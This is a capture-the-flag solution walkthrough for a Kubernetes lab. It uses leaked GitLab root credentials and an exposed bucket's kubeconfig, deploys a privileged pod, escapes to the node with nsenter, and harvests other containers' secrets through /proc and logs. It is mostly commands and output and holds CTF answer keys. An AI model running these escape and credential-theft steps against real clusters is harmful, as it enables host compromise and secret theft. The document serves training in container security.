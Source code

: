 # Solution

## Part 1 - Pivot out of GitLab

- Access <gitlab.foobar.com>
  - Use credentials:
    - u: `root`
    - p: `Ikn0wwh@ty0ud1dl@5tKub3C0n3`
- Go to <http://gitlab.foobar.com/gitlab-instance-f01e4d8a/foobar-taxi>
  - Review README
- Go to <http://gitlab.foobar.com/gitlab-instance-f01e4d8a/foobar-taxi/-/commits/main>
  - Review the git commit messages
- Go to <http://gitlab.foobar.com/gitlab-instance-f01e4d8a/foobar-taxi/-/commit/f0e9ad8ac74a428da5c2a4835a633a7bac6b1193>
  - Review for file that has been added by mistake

## Part 1 - Flag

- FLAG(IckyThumb)

## Part 2 - Get config from Bucket

- Use `aws` to copy file the `config` file from bucket

```sh
aws configure set aws_access_key_id "uUcDGYowgomWC8Z5"
aws configure set aws_secret_access_key "FLAG(IckyThumb)"
aws configure set default.region "us-east-1"
aws configure set default.output "json"
aws --endpoint-url=http://bucket.foobar.com:4566 s3 cp s3://foobar-creds/config ./config
```

> NOTE: if <bucket.foobar.com> hasn't been added to the `/etc/hosts` file, then use this:

```sh
aws --endpoint-url=http://localhost:4566 s3 cp s3://foobar-creds/config ./config
```

- Use the config file to connect to the cluster:

```sh
kubectl --kubeconfig=config auth can-i --list
```

## Part 3 - The Homer

Check what kind of pods do we already have at "the-homer" namespace:
```bash
kubectl get pods -n the-homer
NAME             READY   STATUS    RESTARTS   AGE
homer-pod        1/1     Running   0          61m
```

Check what the "homer-pod" actually looks like, what's doing:
```bash
kubectl get pods -n the-homer homer-pod -o yaml
```

Modify the pod spec and include the "hostPID", "hostNetwork", "privileged" flags and set it to true, to be able to 
land on the node. 
```bash
apiVersion: v1
kind: Pod
metadata:
  name: homer-pod-privileged
  namespace: the-homer
spec:
  hostPID: true
  hostNetwork: true
  containers:
  - name: homer-pod-privileged
    image: cgr.dev/chainguard/nginx:latest
    ports:
    - containerPort: 80
    securityContext:
      privileged: true
```

Apply it:

```bash
kubectl apply -f the-homer-priv.yaml
```

Exec into pod:

```bash
kubectl exec -it car-the-privileged-pod -- /bin/sh
root@gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp:/#
```

Enter into all the namespaces:

```bash
root@gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp:/# nsenter -t 1 -m -u -n -i -p bash
gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp / #
```

## Part 3 - Optional flag

Find the flag:

```bash
gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp / # find .  -name "*flag*" -print
./home/car_capital/f0rd_flag.png
```

The file is `./home/car_capital/f0rd_flag.png`

Get the content:

```bash
cat ./home/car_capital/f0rd_flag.png

aHR0cHM6Ly9kcml2ZS5nb29nbGUuY29tL2ZpbGUvZC8xTi12Nms0YVNpNnFvMXgyY3BJS1IwbjVW
R0dXMFh4a1Qvdmlldw==
```

Decode it from base64:

```bash
base64 -d /home/car_capital/f0rd_flag.png

https://drive.google.com/file/d/1N-v6k4aSi6qo1x2cpIKR0n5VGGW0XxkT/view
```

## Part 4 - boombox

Let's check what other container we have in the node -- since we have access to all the resources.
```bash
gke-test-ctf1-default-pool-f53d5f46-193r / # crictl ps
CONTAINER           IMAGE               CREATED             STATE               NAME                        ATTEMPT             POD ID
83bed131d1aa4       76c69feac34e8       7 minutes ago       Running             homer-pod-priv              0                   f05e5ab2c0374
5cbb847dd9147       751ae29343161       About an hour ago   Running             boombox                     0                   b4c9ed42aac3d
a7c59e682abec       63c5d601075ce       About an hour ago   Running             beep-beep                   0                   88908c85a6636
7a3591a7ace99       155251590ab59       About an hour ago   Running             homer-pod                   0                   2bbd5cf5873e7
```

Let's start with boombox, inspect it:
```bash
crictl inspect 5cbb847dd9147
```

We can see that it's a service, listening on 4000:
```bash
          "key": "NAPSTER_PORT_4000_TCP_PORT",
          "value": "4000"
        },
        {
          "key": "NAPSTER_PORT_4000_TCP_ADDR",
          "value": "10.72.7.227"
        },
```

Let's just get the PID:
```bash
  "info": {
    "sandboxID": "b4c9ed42aac3dc4d402f1a8018c11a61d6677d51b8af348649c233f6c0fc9bd7",
    "pid": 6905,
```

And check what's on the service port:
```bash
watch -n 1 curl 10.72.7.227:4000
```

Go to the container directory on the host, it's under /proc/<PID>
```bash
cd /proc/6905/
```

Check the environment variables:
```bash
gke-test-ctf1-default-pool-f53d5f46-193r /proc/6905 # cat environ
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/ko-appHOSTNAME=boombox-85bdd7ff6f-v84zxSSL_CERT_FILE=/etc/ssl/certs/ca-certificates.crtKO_DATA_PATH=/var/run/koKUBERNETES_PORT_443_TCP_PROTO=tcpNAPSTER_PORT_4000_TCP_PORT=4000NAPSTER_PORT_4000_TCP_ADDR=10.72.7.227NAPSTER_PORT_4000_TCP_PROTO=tcpKUBERNETES_PORT_443_TCP_PORT=443KUBERNETES_PORT_443_TCP_ADDR=10.72.0.1NAPSTER_SERVICE_HOST=10.72.7.227NAPSTER_PORT=tcp://10.72.7.227:4000KUBERNETES_PORT=tcp://10.72.0.1:443NAPSTER_PORT_4000_TCP=tcp://10.72.7.227:4000KUBERNETES_SERVICE_PORT=443KUBERNETES_SERVICE_PORT_HTTPS=443KUBERNETES_PORT_443_TCP=tcp://10.72.0.1:443NAPSTER_SERVICE_PORT=4000KUBERNETES_SERVICE_HOST=10.72.0.1HOME=/home/nonroot
```

We can see that it's a go application built by ko, let's just go to the `/var/run/ko` directory:
```bash
gke-test-ctf1-default-pool-f53d5f46-193r /proc/6905 # cd root/var/run/ko
```

And let's see what's in there:
```bash
ls -l
total 4
drwxr-xr-x 3 root root 4096 Oct 26 13:57 his
```

Get the flag:
```bash
cat his/palms/are/sweaty/knees/weak/arms/are/heavy/theres/vomit/on/his/sweater/already/moms/spagetti
FLAG=loseyourself
```

## Part 5 - Beep-Beep

Let's inspect what beep-beep is doing. Get the containerID:
```bash
crictl ps
CONTAINER           IMAGE               CREATED             STATE               NAME                        ATTEMPT             POD ID
83bed131d1aa4       76c69feac34e8       30 minutes ago      Running             homer-pod-priv              0                   f05e5ab2c0374
5cbb847dd9147       751ae29343161       About an hour ago   Running             boombox                     0                   b4c9ed42aac3d
a7c59e682abec       63c5d601075ce       About an hour ago   Running             beep-beep                   0                   88908c85a6636
```

and run:
```bash
crictl inspect a7c59e682abec
```

Check if there is any info related to logging:
```bash
      },
      "log_path": "beep-beep/0.log",
      ...
    ],
    "logPath": "/var/log/pods/intersection_beep-beep-722gl_417af059-0e56-4129-aa4c-607772f75356/beep-beep/0.log"
    ...
```

In another terminal check the logs from the container:
```bash
kubectl logs -f -n intersection beep-beep-722gl
🟢 - green
🟡 - yellow
🔴 - red
🟢 - green
🟡 - yellow
🔴 - red
🟢 - green
🟡 - yellow
```

Let's try to stop it:
```bash
gke-test-ctf1-default-pool-f53d5f46-193r ~ # crictl stop 8bc9bef03b864
8bc9bef03b864
```

Observe the flag from the logs:
```bash
🟢 - green
🟡 - yellow
Signal received: terminated
[PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/ko-app HOSTNAME=beep-beep-722gl SSL_CERT_FILE=/etc/ssl/certs/ca-certificates.crt KO_DATA_PATH=/var/run/ko KUBERNETES_PORT=tcp://10.72.0.1:443 KUBERNETES_PORT_443_TCP=tcp://10.72.0.1:443 KUBERNETES_PORT_443_TCP_PROTO=tcp KUBERNETES_PORT_443_TCP_PORT=443 KUBERNETES_PORT_443_TCP_ADDR=10.72.0.1 KUBERNETES_SERVICE_HOST=10.72.0.1 KUBERNETES_SERVICE_PORT=443 KUBERNETES_SERVICE_PORT_HTTPS=443 HOME=/home/nonroot]
AWS_ACCESS_KEY_ID=SOMETHINGSOMETHING
AWS_SECRET_ACCESS_KEY=FLAG(DodgeViper)
AWS_DEFAULT_REGION=🗽 - ⬆️  ⬇️  ➡️  ⬅️  - 🍔
exiting
```

